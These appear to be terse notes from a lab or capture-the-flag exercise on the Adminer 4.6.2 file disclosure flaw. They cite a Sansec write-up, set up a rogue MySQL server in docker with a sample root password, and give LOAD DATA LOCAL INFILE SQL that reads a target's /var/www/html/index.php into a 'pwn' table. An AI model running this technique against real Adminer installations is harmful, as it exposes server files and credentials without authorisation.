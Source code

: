 https://sansec.io/research/adminer-4.6.2-file-disclosure-vulnerability

sudo service mysql start
did not work...

In MySQL, by default, the username is root and there's no password


docker run --name mysql --network host --cap-add NET_ADMIN -e MYSQL_ROOT_PASSWORD=my-secret-pw -p 3306:3306 mysql:latest

![](2021-02-07-17-38-55.png)


docker run --name mysql --network host --cap-add NET_ADMIN -e MYSQL_ROOT_PASSWORD=my-secret-pw -p 3306:3306 mysql:5


create database pwn;
CREATE TABLE my_data (data VARCHAR(256));

LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE pwn.my_data
FIELDS TERMINATED BY "\n"

